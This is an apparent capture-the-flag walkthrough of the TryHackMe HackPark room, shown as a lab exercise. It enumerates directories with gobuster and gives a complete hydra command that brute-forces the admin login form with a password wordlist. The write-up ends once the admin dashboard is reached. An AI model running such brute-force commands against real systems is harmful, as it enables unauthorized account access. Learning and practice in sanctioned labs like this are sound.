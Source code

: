 ## HackPark | TryHackMe

This is the link for the room [Hackpark](https://tryhackme.com/room/hackpark)

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/8c8b2105d74035ca43531681439b457e.png" width="200px" align="center">

---
Let's go we execute this task.

First, we must access the website to get more information.

<img src="https://user-images.githubusercontent.com/67650329/193573616-301f57ce-a6e9-4efd-bbdb-bf95178a2c6f.png" width="500px" align="center">

**Whats the name of the clown displayed on the homepage?**

**Answer: pennywise**

We can search all of subdomain the website. Use tool `gobuster`.

`gobuster dir -u {ip_target} -w {wordlist} -f -n`

<img src="https://user-images.githubusercontent.com/67650329/193573947-549481bb-0a60-4121-8669-256e7da76861.png" width="500px" align="center">

We get /admin/ from gobuster. Yes that its login page. We can bypass the admin password use `hydra`.

<img src="https://user-images.githubusercontent.com/67650329/193574246-ece4b9a8-b920-4f8a-beff-7f9ee16a9e65.png" width="500px" align="center">

Ohh no :( can't use simple command to execute this login page. We must take hard of this.

<img src="https://user-images.githubusercontent.com/67650329/193574465-62ec4f5d-38b3-47d3-9593-0594c9fd94ee.png" width="500px" align="center">

We can use burp to see the source page. Ahh i see on the bottom page {VIEWSTATE and EVENTVALIDATION} we can execute this. 

<img src="https://user-images.githubusercontent.com/67650329/193574853-51454a37-a783-4629-96ab-9aa33b31ff79.png" width="500px" align="center">

**What request type is the Windows website login form using?**

**Answer: POST**

We can use this command to use on hydra:

`hydra -l admin -P rockyou.txt {IP} http-post-form "/Account/login.aspx?ReturnURL=admin:__VIEWSTATE=Bjdg0T4vJInmW5tUM8x5txmfsq8hz6JGO83P0kbnaJq966zSeFeDAxLS%2BXyw4U4S%2FgpkPbUDHuPw14Mx2Q2QJRFxJ7kenDSk54xKXAp9wDV4gVOW3yEZCH93n0756GyaZ8EyMi58wMwEivOw0zpcHO8xp8e%2Bj32e7h3iv5zKqryGFUPE&__EVENTVALIDATION=31Qm85XIxQI11Fi3HPbRUY6kn21c%2F0zPSqk2UvIRBUu1Tt4QS4oLN1VfqrwJsGOUA5SWiSRdcq5xSwvpOpMlWpc%2FfuQa%2BRGsBlT0juZD%2BREOwscUWk%2BwRvwxsVfiEUUV6Hu35MTQshjrc21mdMKy7m8SMyNHNImtbJDftdJDzqYsNqF7&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"`

<img src="https://user-images.githubusercontent.com/67650329/193575266-fadeb36b-ea76-4b15-8fe9-b88a5db6a190.png" width="500px" align="center">

Ahh we get the password. And we can see the admin dashboard. Let's go explore the dashboard.

<img src="https://user-images.githubusercontent.com/67650329/193575458-567c0ce7-056b-4da3-9a37-b44b87799a9b.png" width="500px" align="center">
